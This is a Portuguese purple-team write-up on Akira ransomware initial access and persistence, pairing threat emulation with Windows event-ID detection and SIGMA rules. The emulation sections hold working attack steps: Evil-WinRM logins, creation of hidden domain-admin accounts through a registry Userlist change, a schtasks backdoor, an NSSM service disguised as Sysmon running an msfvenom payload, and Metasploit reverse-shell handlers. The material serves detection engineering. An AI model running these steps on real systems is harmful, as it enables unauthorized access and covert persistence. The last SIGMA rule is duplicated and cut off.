


<div style="display: flex; justify-content: center;">
  
  
</div>

# Análise Técnica da Kill Chain - Akira: Acesso Inicial / Persistência

$\color{black}{\textsf{Pesquisador}}$ : $\color{purple}{\textsf{Bryenne Bonfim}}$

$\color{black}{\textsf{Tipo de Ameaça}}$ : $\color{orange}{\textsf{TTP}}$

$\color{black}{\textsf{TLP}}$ :  $\color{red}{\textsf{RED}}$

$\color{black}{\textsf{Nível de Impacto}}$ :  $\color{red}{\textsf{Critico}}$

$\color{black}{\textsf{Tipo de Impacto}}$ :  $\color{red}{\textsf{Acesso Incial / Persistência}}$

--------------------------------------

Descoberto pela primeira vez no início de 2023, o ransomware Akira parecia ser apenas mais uma família de ransomware que entrou no mercado. Sua atividade contínua e inúmeras vítimas são nossos principais motivadores para investigar o funcionamento interno do malware para capacitar as equipes azuis a criar regras defensivas adicionais fora de sua segurança já implementada.

## Cadeia de infecção e técnicas

O ransomware Akira normalmente obtém acesso aos ambientes das vítimas usando credenciais válidas que foram possivelmente obtidas de seus afiliados ou outros ataques. Ele foi observado usando ferramentas de terceiros, como PCHunter, AdFind, PowerTool, Terminator, Advanced IP Scanner, Windows Remote Desktop Protocol (RDP), AnyDesk, Radmin, WinRAR e a ferramenta de tunelamento da Cloudflare. A Figura abaixo mostra a cadeia de infecção do Akira:

<p align="center">
  
  <br>
  Figura 1: A cadeia típica de infecção do ransomware Akira
</p>

Os dados recuperados do sistema do ator totalizaram 99 GB e incluíram diversas ferramentas autônomas para exploração e reconhecimento de VPN, juntamente com um diretório de ferramentas apropriadamente nomeado , contendo uma coleção de utilitários de pentesting de código aberto.

A partir da avaliação de comandos executados no sistema, este sistema é avaliado como tendo sido usado principalmente para conduzir exploração inicial e exfiltração de dados. Enquanto os operadores do sistema instalaram ferramentas de reconhecimento (como reconftw ) e pós-exploração, seu uso delas parece limitado a testes. 

## Acesso Inicial

O modo mais comum de acesso inicial usado pelos autores do ransomware Akira era usar contas sem autenticação multifator (MFA) para criar uma sessão não autorizada na VPN. Normalmente, a Sophos observou que os autores do Akira visavam especificamente produtos Cisco VPN sem MFA habilitado, como Cisco ASA SSL VPN ou Cisco AnyConnect.

Além de aproveitar a falta de MFA, os atores do Akira também exploram vulnerabilidades conhecidas no próprio software VPN. Em um caso, eles provavelmente exploraram o CVE-2023-20269 no Cisco ASA de uma organização para estabelecer uma sessão VPN de acesso remoto não autorizada na infraestrutura da vítima. Spearphishing também é usado para ganhar uma posição, o que geralmente é mais eficaz do que o phishing simples, pois é direcionado a um usuário específico (grupo) e/ou um tema relevante para o(s) destinatário(s).

O ambiente afetado, embora relativamente pequeno, lembrava outros vistos em incidentes relacionados ao Akira: um firewall Cisco ASA servindo como proteção de perímetro, com Cisco AnyConnect SSL VPN habilitado. A autenticação para os usuários VPN era gerenciada por meio de um servidor Microsoft NPS (Network Policy Server) RADIUS, sem Multi-Factor Authentication (MFA) habilitado para os poucos usuários do serviço VPN.

Felizmente, o servidor NPS RADIUS reteve logs abrangendo seis meses, permitindo uma análise completa. O exame dos logs revelou o mesmo padrão consistente, levantando suspeitas de uma exploração sendo executada. Além disso, se destaca o início de atividades maliciosas, como varredura de rede, movimento lateral e criptografia, que começaram mais de dois meses após o login malicioso inicial pelo agente da ameaça.

## Emulação de Ameaça: Identificação de Serviços e Enumeração Inicial

### Escanear a Máquina-Alvo com Nmap

Realize um scan com o nmap para identificar portas abertas e serviços na vitima:

```zsh
nmap -sC -sV -T4 -Pn -p- 192.168.140.130
```

- -sC: Executa scripts padrão do Nmap.
- -sV: Detecta a versão dos serviços.
- -T4: Define o tempo de escaneamento como mais rápido (valor 4).
- -Pn: Ignora a verificação de host ativo.
- -p-: Escaneia todas as portas (0-65535).
- [IP-DA-VÍTIMA]: Substitua pelo endereço IP da máquina vítima.

<p align="center">
  
  <br>
  Figura 2: Escanear Máquina Alvo com Nmap.
</p>

A saída mostra todas as portas abertas na máquina-alvo e seus respectivos serviços, facilitando a próxima etapa de enumeração. Verifique se a porta 3389 (RDP) está aberta e anote as versões dos serviços.

### Testar Conexões WinRM (Windows Remote Management)

Se a porta **5985** estiver aberta (conforme identificado pelo Nmap) e a senha de um usuário for descoberta, podemos testar a conectividade do WinRM, utilizando a ferramenta **Evil-WinRM** no Kali Linux para se conectar e obter uma shell remota:

```zsh
evil-winrm -i 192.168.140.128 -u Administrador -p admin123
```

- **-i:** IP da máquina vítima.
- **-u:** Nome de usuário.
- **-p:** Senha.

Se as credenciais estiverem corretas, você terá uma sessão de comando interativa na máquina vítima, com a saída abaixo como esperada:

<p align="center">
  
  <br>
  Figura 3: Testando Conexão WinRM com a Ferramenta Evil-WinRM.
</p>

### Enumerar Serviços de RDP e Provar Conectividade

Caso a porta 3389 (RDP) esteja aberta, tente conectar usando o cliente RDP (`mstsc` no Windows ou `remmina` no Linux):

- **Windows:** No Windows, digite `mstsc` e, na janela de conexão, insira o `IP da vítima`:

```zsh
mstsc /v:192.168.140.128
```

- **Linux:** Use o `remmina` e conecte-se ao `IP e porta da vítima`: 

```zsh
remmina rdp://192.168.140.128
```

Se as credenciais estiverem corretas, você conseguirá acessar a Área de Trabalho Remota. No nosso exemplo utilizaremos a opção feita com Linux e teremos uma saída semelhante as imagens a seguir:

<p align="center">
  
  <br>
  Figura 4: Enumerando serviços RDP.
</p>

<p align="center">
  
  <br>
  Figura 5: Conectividade Via RDP com o remmina.
</p>

## Detecção de Ameaça - Detecção de Logon Bem-Sucedido ou Falho

**Evento de Logon Bem-Sucedido (EventID 4624):** Esse evento indica que um usuário conseguiu efetuar login no sistema com sucesso. Isso pode ser um indicativo de acesso inicial de um invasor se o login ocorrer fora do horário normal ou a partir de um local geograficamente incomum.

Os logs gerados pelo EventViewer se encontraram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 6: Log Gerado no Sistema do Windows.

E os logs gerados pelo SIEM, se encontram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 7: Log Gerado no SIEM.

Em `message` obtemos as seguintes informações:

<p align="center">
  
  <br>
  Figura 8: Message Contendo Informações Sobre o Login Efetuado com Sucesso.

## Persistência

Operadores do Akira foram observados criando uma nova conta de domínio no sistema comprometido para estabelecer persistência.

## Emulação de Ameaça I: Criação de uma Conta de Usuário para Persistência

Após obter acesso com Evil-WinRM, execute os comandos a seguir para adicionar um novo usuário ao sistema Windows:

- Crie um novo usuário:

```zsh
net user akira [SENHA] /add
```
<p align="center">
  
  <br>
  Figura 9: Criando uma Conta de Usuário para a Persitência.

- Adicione esse usuário ao grupo de administradores:

```zsh
net localgroup administradores akira /add
```
<p align="center">
  
  <br>
  Figura 10: Adicionando Usuário ao Grupo de Administradores.

## Detecção de Ameaça I- Detecção de Criação e Habilitação de Contas de Usuário

- **Evento de Criação de Conta (EventID 4720):** Esse evento é gerado sempre que uma nova conta de usuário é criada no sistema. Ele pode ser um forte indicativo de persistência se uma conta maliciosa for criada após um comprometimento.

Os logs gerados pelo EventViewer se encontraram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 11: Log Gerado no Sistema do Windows.

<p align="center">
  
  <br>
  Figura 12: Log Gerado no SIEM.

Em `message` obtemos as seguintes informações:

<p align="center">
  
  <br>
  Figura 13: Message Contendo Informações Sobre o Usuário Criado.

- **Evento de Habilitação de Conta (EventID 4722):** Este evento é registrado quando uma conta previamente desativada é reativada. Um atacante pode utilizar essa técnica para ganhar acesso persistente reativando uma conta desabilitada anteriormente.

Os logs gerados pelo EventViewer se encontraram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 14: Log Gerado no Sistema do Windows.

E os logs gerados pelo SIEM, se encontram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 15: Log Gerado no SIEM.

  Em `message` obtemos as seguintes informações:

<p align="center">
  
  <br>
  Figura 16: Message Contendo Informações Sobre o Usuário Habilitado.

  - **Evento de Adição ao Grupo Administradores (EventID 4732):** Esse evento é gerado quando uma conta de usuário é adicionada a um grupo de segurança habilitado, como o grupo Administradores ou Domain Admins, o que pode indicar uma tentativa de escalonamento de privilégios por um atacante.

Os logs gerados pelo EventViewer se encontraram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 17: Log Gerado no Sistema do Windows.

E os logs gerados pelo SIEM, se encontram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 18: Log Gerado no SIEM.

Em `message` obtemos as seguintes informações:

<p align="center">
  
  <br>
  Figura 19: Message Contendo Informações Sobre a Adição do Usário ao Grupo de Admins.


## Emulação de Ameaça II: Criação de uma Conta de Domínio (Emular Persistência em Ambiente Corporativo)

Para emular a persistência no ambiente corporativo como o observado pelo grupo Akira, siga este guia detalhado para configurar um controlador de domínio e criar uma conta de domínio, utilizando uma VM com Windows Server.

Objetivo: Simular um controlador de domínio (DC) e adicionar uma nova conta de usuário no domínio, emulando a persistência.

### Conectar-se ao Controlador de Domínio com Evil-WinRM

Com o controlador de domínio configurado para simular uma conta corporativa, podemos usar a ferramenta `Evil-WinRM` para adicionar uma nova conta ao domínio. Para isso obtenha o endereço IP da vítima. Anote o IP para usá-lo no Evil-WinRM.

Utilize o comando abaixo para se conectar com o servidor:

```zsh
evil-winrm -i [IP_DA_VM] -u Administrator -p [Senha_do_Administrador]
```

Substitua `[IP_DA_VM]` pelo endereço IP do controlador de domínio e `[Senha_do_Administrador]` pela senha definida. Se a conexão for bem-sucedida, você terá um prompt de comando interativo com privilégios elevados no controlador de domínio.

<p align="center">
  
  <br>
  Figura 20: Testando Conexão no Controlador de Domínio com Evil-WinRM.

### Adicionar a Nova Conta de Usuário no Domínio

Após conectar-se ao controlador de domínio com privilégios elevados, crie a conta de usuário chamada `akira` no domínio, definindo a senha para o pefil do usuário:

```zsh
net user [NOVO_USUÁRIO] [SENHA] /add /domain
```

Se a conta for criada com sucesso, a saída será:

<p align="center">
  
  <br>
  Figura 21: Criando Uma Nova Conta no Domínio.

> [!NOTE]
>**Erro Comum**: Se aparecer a mensagem O domínio especificado não existe ou não pôde ser contatado, certifique-se de que a VM foi promovida corretamente a um controlador de domínio e está conectada à rede correta.

### Adicionar a Conta ao Grupo de Administradores de Domínio

Agora, para garantir que o usuário `akira` tenha privilégios administrativos, adicione-o ao grupo `Domain Admins`:

```zsh
net group "Domain Admins" akira /add /domain
```

Se o comando for bem-sucedido, você verá a mensagem:

<p align="center">
  
  <br>
  Figura 22: Adicionando Usuário Criado ao Grupo "Domain Admins".

Este comando adiciona `akira` ao grupo de administradores de domínio, conferindo permissões administrativas no controlador de domínio.

### Conectar-se via RDP com a Conta Criada

Após configurar a conta, podemos nos conectar à máquina via RDP para confirmar que a conta foi criada e possui privilégios de administrador. No Kali Linux (ou outra máquina Windows), abra o cliente RDP:

```zsh
remmina rdp://192.168.140.128
```

Utilize akira como usuário e a senha configurada no passo anterior.

Se a conexão for bem-sucedida, você terá acesso à área de trabalho do controlador de domínio com permissões administrativas.

<p align="center">
  
  <br>
  Figura 23: Acesso via RDP ao Servidor DC.

<p align="center">
  
  <br>
  Figura 24: Acesso Bem-Sucedido ao Controlador de Domínio.

### Verificar a Conta Criada no Active Directory

Para validar a criação da conta, no controlador de domínio, abra o **Gerenciador do Active Directory**:
 - Vá em **Ferramentas** > **Usuários e Computadores do Active Directory**;
 - Verifique a existência da conta `akira` no contêiner **Users**;
 - Confirme que `akira` está listada como membro do grupo **Domain Admins**.

<p align="center">
  
  <br>
  Figura 25: Verificando Conta Criada no AD e no Grupo "Domain Admins"

## Detecção de Ameaça II - Detecção de Adição de Usuário a Grupos Administrativos

- **Evento de Criação de Conta (EventID 4720):** Esse evento é gerado sempre que uma nova conta de usuário é criada no sistema. Ele pode ser um forte indicativo de persistência se uma conta maliciosa for criada após um comprometimento.

Os logs gerados pelo EventViewer se encontraram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 26: Log Gerado no Sistema do Windows.

E os logs gerados pelo SIEM, se encontram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 7: Log Gerado no SIEM.

- **Evento de Adição ao Grupo Administradores (EventID 4732):** Esse evento é gerado quando uma conta de usuário é adicionada a um grupo de segurança habilitado, como o grupo Administradores ou Domain Admins, o que pode indicar uma tentativa de escalonamento de privilégios por um atacante.

Os logs gerados pelo EventViewer se encontraram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 27: Log Gerado no Sistema do Windows.

E os logs gerados pelo SIEM, se encontram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 28: Log Gerado no SIEM.

Em `message` obtemos as seguintes informações:

<p align="center">
  
  <br>
  Figura 29: Message Contendo Informações Sobre a Adição do Usário ao Grupo de "Domain Admins".

## Emulação de Ameaça III: Adição de Usuário à Chaves de Registros de Contas Especiais 

Para manter ainda mais a persistência e elevar os privilégios dentro de um sistema comprometido, os atores do Akira ocasionalmente adicionavam um usuário recém-criado à chave de registro de contas especiais, que o [Sophos](https://news.sophos.com/es-es/) detectou na detecção “WIN-EVA-PRC-HIDE-LOGON” -REGISTRY-1.

No sistema Windows, execute o comando para adicionar um novo usuário à chave de "contas especiais":

```zsh
C:\Windows\system32\reg.exe add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v <nome_de_usuario> /t REG_DWORD /d 0 /f
```

Se o comando for bem-sucedido, você verá a seguinte mensagem:

<p align="center">
  
  <br>
  Figura 30: Adição de um Novo Usuário a Contas Especiais.

## Detecção de Ameaça III - Detecção de Adição de Usuário a Contas Especiais

 Para capturar modificações no Registro, como a adição de um usuário malicioso na chave `Userlist` do `Winlogon`, você pode configurar auditoria de registro ou monitorar eventos relacionados ao uso de ferramentas como `reg.exe`. Adicionar um usuário a essa chave oculta a conta da tela de login e é uma técnica comumente utilizada por atacantes para garantir persistência sem ser detectado facilmente.

- **Evento de Modificação da Chave de Registro (EventID 4657):**  Esse evento é registrado quando uma chave ou valor no Registro do Windows é modificado.

Os logs gerados pelo EventViewer se encontraram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 31: Log Gerado no Sistema do Windows.

E os logs gerados pelo SIEM, se encontram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 32: Log Gerado no SIEM.

Em `message` obtemos as seguintes informações:

<p align="center">
  
  <br>
  Figura 33: Message Contendo Informações Sobre a Adição do Usário a Chave de registro de Contas Especiais.

- **Evento de Criação de Processo (EventID 4688):** Se o atacante utilizar o `reg.exe` para modificar a chave de registro, o evento de criação do processo também será capturado.

Os logs gerados pelo EventViewer se encontraram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 34: Log Gerado no Sistema do Windows.

E os logs gerados pelo SIEM, se encontram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 35: Log Gerado no SIEM.

## Emulação de Ameaça IV: Execução de Tarefas ou Serviços Agendados (Task Scheduler)

Além da modificação no registro, o grupo Akira configura mais uma forma de persistência adicional, eles utilizam da criação de uma tarefa agendada ou serviços personalizados para garantir que o acesso ao sistema seja mantido. Para isso, o comando `schtasks` pode ser utilizado, como mostrado a seguir:

```zsh
schtasks /create /tn "persistencia_akira" /tr "C:\Users\Public\backdoor.exe" /sc onstart /f
```

Esse comando agenda a execução do playload malicioso como backdoor para iniciar junto ao sistema da vítima, retornando em uma shell reversa:

<p align="center">
  
  <br>
  Figura 36: Tarefa Agendada com Sucesso.

Para garantir que a tarefa foi criada com sucesso, você pode listar todas as tarefas agendadas e verificar se `persistencia_akira` está na lista:

```zsh
schtasks /query /tn "persistencia_akira"
```

<p align="center">
  
  <br>
  Figura 37: Validando Tarefa Agendada com Sucesso.

Aguarde a conexão reversa em seu sistema Linux. Se você estiver usando o Metasploit, abra o handler:

```zsh
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <seu_IP_atacante>
set LPORT <porta>
exploit
```

## Detecção de Ameaça IV - Execução de Tarefas ou Serviços Agendados

O grupo Akira utiliza tarefas agendadas ou serviços persistentes para manter acesso ao sistema. Associar a criação de uma conta a eventos de criação de tarefas agendadas ou novos serviços pode indicar um ataque.

- **Evento de Criação de uma nova tarefa agendada (EventID 4698):** Esse evento indica a criação de uma nova tarefa agendada.

Os logs gerados pelo EventViewer se encontraram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 38: Log Gerado no Sistema do Windows.

E os logs gerados pelo SIEM, se encontram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 39: Log Gerado no SIEM.

- **Evento de Criação de Processo (EventID 4688):** Se o atacante utilizar o um serviço como o `backdoor` criado, o evento de criação do processo também será capturado.

Os logs gerados pelo EventViewer se encontraram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 40: Log Gerado no Sistema do Windows.

E os logs gerados pelo SIEM, se encontram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 41: Log Gerado no SIEM.

## Emulação de Ameaça V: Criação de Serviço Malicioso com Sysmon

O grupo Akira cria um serviço malicioso chamado `"Sysmon"`, que executa um arquivo malicioso sysmon.exe (modificado para não ser o legítimo) e usa o NSSM (Non-Sucking Service Manager) para manter o serviço ativo e oculto.

```zsh
''{"EventData”:{“AccountName”:”LocalSystem”,”ImagePath”:”C:\\Windows\\tmp\\nssm.exe”,
“ServiceName”:”Sysmon”,”ServiceType”:”serviço de modo de usuário”,”StartType”:”inicialização automática”}}
```

Explicação dos parâmetros:
- **AccountName**: Define a conta que executa o serviço, no caso, “LocalSystem”, o que garante privilégios elevados.
- **ImagePath**: Especifica o caminho do executável malicioso (neste caso, nssm.exe), que gerencia o serviço para manter o Sysmon rodando.
- **ServiceName**: Nome do serviço, definido como “Sysmon”, o que ajuda a enganar o administrador.
- **ServiceType**: Indica que é um serviço de modo de usuário.
- **StartType**: Define que o serviço inicia automaticamente com o sistema.

Para a execução dessa emulação temos que ter configurado o ambiente com os seguintes parâmetros:

- **Ferramenta NSSM na máquina Windows:** NSSM é necessário para criar o serviço malicioso. Você pode baixar o NSSM e transferir o executável `nssm.exe` para o diretório da máquina Windows (por exemplo, `C:\Windows\tmp\nssm.exe`).
- **Payload Sysmon malicioso:** Crie um payload que será executado como `sysmon.exe`. Isso pode ser feito com `msfvenom` no Linux e transferido para o diretório desejado na máquina Windows.

Transfira o `sysmon.exe` e o `nssm.exe` para a máquina Windows em `"C:\Windows\tmp\"`. Use comandos do Evil-WinRM:

```zsh
upload sysmon.exe C:\Windows\tmp\sysmon.exe
upload nssm.exe C:\Windows\tmp\nssm.exe
```

<p align="center">
  
  <br>
  Figura 42: Upload do serviço Sysmon.

<p align="center">
  
  <br>
  Figura 43: Upload do NSSM.

Agora, usando o Evil-WinRM, crie o serviço malicioso com o NSSM:

```zsh
C:\Windows\tmp\nssm.exe install Sysmon "C:\Windows\tmp\sysmon.exe"
```

<p align="center">
  
  <br>
  Figura 44: Serviço sendo Instalado.

Esse comando cria o serviço `Sysmon` com o executável `sysmon.exe`, que será mantido ativo por NSSM. Após criar o serviço, Akira executa o comando abaixo para configurar o Sysmon para monitoramento ou tunelamento, dependendo dos parâmetros:

Modifique as configurações do serviço para iniciar automaticamente:

```zsh
Set-Service -Name Sysmon -StartupType Automatic
```

Inicie o serviço recém-criado:

```zsh
Start-Service -Name Sysmon
```

Aguarde a conexão reversa em seu sistema Linux. Se você estiver usando o Metasploit, abra o handler:

```zsh
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <seu_IP_atacante>
set LPORT <porta>
exploit
```

Após a execução, o payload sysmon.exe deve se conectar ao listener configurado no Linux, estabelecendo o acesso reverso à máquina Windows.

## Detecção de Ameaça V - Criação de Serviço Malicioso com Sysmon

O grupo Akira serviços ilegitimos se comportando como serviços legítmos para mantes a persitência e não ser detectado.

- **Evento de Novo Serviço Criado (EventID 7045):** Esse evento indica a criação de um novo serviço no sistema.

Os logs gerados pelo EventViewer se encontraram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 38: Log Gerado no Sistema do Windows.

E os logs gerados pelo SIEM, se encontram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 39: Log Gerado no SIEM.

- **Evento de Criação de Processo (EventID 4688):** Se o atacante utilizar o serviço `sysmon.exe` com o `nssm.exe`, o evento de criação do processo também será capturado.

Os logs gerados pelo EventViewer se encontraram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 40: Log Gerado no Sistema do Windows.

E os logs gerados pelo SIEM, se encontram da seguinte maneira:

<p align="center">
  
  <br>
  Figura 41: Log Gerado no SIEM.


## Engenharia de Detecção

Na seção a seguir, vamos sintetizar como caçar os indicadores de comprometimento produzidos pelo acesso remoto na  vítima, a criação de contas novas na vítima e no controlaodr de domínio e a adição do usuário ao grupo de segurança **Domain Admins** em busca de persistência.

### Caçando Indicadores de Comprometimento 

Nesta seção, vamos sintetizar os principais pontos que podemos utilizar para construir uma detecção eficaz para monitorar os eventos relacionados ao acesso inicial e persistência durante a emulação do ataque realizado pelo grupo Akira. Com base no comportamento observado durante a fase de emulação,identificamos os principais pontos que podemos monitorar para detectar acessos não autorizados e a criação de mecanismos de persistência na rede:

- **Acesso Inicial via VPN ou RDP**: Durante o acesso inicial, o atacante pode comprometer a rede utilizando credenciais válidas ou explorando vulnerabilidades em serviços de acesso remoto como VPN ou RDP.

- **Pontos de Detecção**:
   - Monitorar logs de autenticação do Windows para eventos de login (**Event ID 4624**) e tentativas falhas de login **(Event ID 4625**).
    - Revisar logs do servidor VPN, buscando por conexões incomuns ou falhas de autenticação.

- **Criação de Contas Maliciosas**: Após obter acesso inicial, o atacante pode criar contas de usuário para manter acesso persistente ou escalar privilégios no ambiente comprometido.

- **Pontos de Detecção**:
  - Monitorar eventos do Windows que indicam a criação de novas contas de usuário (**Event ID 4720**).
  - Verificar a adição de contas a grupos administrativos (**Event ID 4732**).
  - Ativar auditoria para detectar mudanças em direitos de usuário e políticas de segurança (**Event ID 4670**).

- **Modificação na Chave de Registro e Criação de Processo**: Para monitorar atividades maliciosas relacionadas à modificação da chave de Registro que oculta contas no sistema.

- **Pontos de Detecção**:
  - Monitorar processos e comandos suspiciosos na chave `Userlist` no caminho `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist` para detecção de modificações e possíveis ocultações de usuários (**Event ID 4657**);
  - Detectar a execução do `reg.exe` com parâmetros específicos para modificar a chave Userlist, com nome nome do processo: `C:\Windows\system32\reg.exe` (**Event Id 4688**)

- **Execução de Tarefas ou Serviços Agendados**: Para detectar essa persistência em ferramentas de segurança, como SIEMs ou monitoramento de log, você pode monitorar eventos de criação de tarefas no sistema.

- **Pontos de Detecção**:
  - Monitorar eventos que indicam a criação de tarefas agendadas com nomes suspeitos ou ações suspeitas, como execução de cmd.exe ou outros executáveis. (**Event Id 4698**) 
  - Detectar a execução de serviços com nome do processo: `schtasks.exe` (**Event Id 4688**)

- **Criação de Serviço com Sysmon**: Para detectar essa persitência deve se avaliar a criação de novos serviços no systema.

- **Pontos de Detecção**:
  - Monitorar eventos que indicam a criação de novos serviços do sistema (**Event Id 7045**) 
  - Detectar a execução de serviços com nome do processo: `nssm.exe` (**Event Id 4688**)


----------------

### Padrão SIGMA: Akira: Acesso Inicial / Criação de Usuário / Modificação do Userlist no Registro

```yaml
title: 'Windows - Akira: Acesso Inicial / Criação de Usuário / Modificação do Userlist no Registro - BASELINE'
id: 240a8928-d4bb-467e-afc8-ac9a09be1b41
status: stable
description: 'Detecta logon, criação de contas maliciosas e a modificação do Userlist para ocultar usuários'
references: 
    - 'https://attack.mitre.org/techniques/T1078/'
    - 'https://attack.mitre.org/techniques/T1136/002/'
author: CTI Purple Team - Bryenne Soares
date: 14/11/2024
tags:
    - attack.initial access.TA0001
    - attack.T1078 # Valid Accounts
    - attack.persistence.TA0003
    - attack.T1543.002 # Create Account: Domain Account
    - attack.privilege_escalation
logsource:
    category: security
    product: windows
    definition: sysmon
detection:
    selection_logon|contains:
      EventID:
      - 4624  # Successful logon
      - 4625  # Failed logon
    selection_user_creation:
      EventID:
      - 4720  # User account creation
      - 4722  # User account enabled
      - 4732  # User added to security-enabled global group
    selection_registry_modification|contains:
      EventID:
      - 4657 # Um valor do registro foi modificado.
      winlog.event_data.ObjectName:
      - '\REGISTRY\MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist'
    selection_process_creation|contains:
      EventID:
      - 4688 # Um processo foi criado.
      process.name:
      - 'reg.exe'
    condition: selection_logon or selection_user_creation or (selection_registry_modification or selection_process_creation)      
fields:
    - 'EventId'
    - 'process.name'
    - 'user.name'
    - 'registry.key'
falsepositives:
    - "É necessário validar se foi realizado uma ação administrativa de conhecimento da equipe de infraestrutura"
level: high
```

### Padrão SIGMA: Akira: Acesso Inicial / Criação de Usuário / Tarefas Agendadas
```yaml
title: 'Windows - Akira: Acesso Inicial / Criação de Usuário / Tarefas Agendadas - BASELINE'
id: cd48e4cf-4642-418f-83e3-7f0dbb7ac516
status: stable
description: 'Detecta atividades suspeitas relacionadas ao logon de usuário, criação de conta e criação de tarefas agendadas.'
references: 
    - 'https://attack.mitre.org/techniques/T1078/'
    - 'https://attack.mitre.org/techniques/T1136/002/'
author: CTI Purple Team - Bryenne Soares
date: 14/11/2024
tags:
    - attack.initial access.TA0001
    - attack.T1078 # Valid Accounts
    - attack.persistence.TA0003
    - attack.T1543.002 # Create Account: Domain Account
    - attack.t1053
    - attack.execution
    - attack.privilege_escalation
logsource:
    category: security
    product: windows
    definition: sysmon
detection:
    selection_logon:
      EventID:
      - 4624  # Successful logon
      - 4625  # Failed logon
    selection_user_creation:
      EventID:
      - 4720  # User account creation
      - 4722  # User account enabled
      - 4732  # User added to security-enabled global group
    selection_task_creation:
      EventID:
      - 4698  # Criação de nova tarefa agendada
    selection_process_creation|contains:
      EventID:
      - 4688 # Um processo foi criado.
      process.name:
      - 'schtasks.exe'
    condition: selection_logon or selection_user_creation or (selection_task_creation and selection_process_creation)
fields:
    - EventID
    - user.name
    - process.name
falsepositives:
    - "Ações administrativas legítimas ao criar contas e tarefas agendadas para manutenção ou backup de sistemas."
level: high
```

### Padrão SIGMA: Akira: Acesso Inicial / Criação de Usuário / Tarefas Agendadas
```yaml
title: 'Windows - Akira: Acesso Inicial / Criação de Usuário / Tarefas Agendadas - BASELINE'
id: cd48e4cf-4642-418f-83e3-7f0dbb7ac516
status: stable
description: 'Detecta atividades suspeitas relacionadas ao logon de usuário, criação de conta e criação de tarefas agendadas.'
references: 
    - 'https://attack.mitre.org/techniques/T1078/'
    - 'https://attack.mitre.org/techniques/T1136/002/'
author: CTI Purple Team - Bryenne Soares
date: 14/11/2024
tags:
    - attack.initial access.TA0001
    - attack.T1078 # Valid Accounts
    - attack.persistence.TA0003
    - attack.T1543.002 # Create Account: Domain Account
    - attack.t1053
    - attack.execution
    - attack.privilege_escalation
logsource:
    category: security
    product: windows
    definition: sysmon
detection:
    selection_logon:
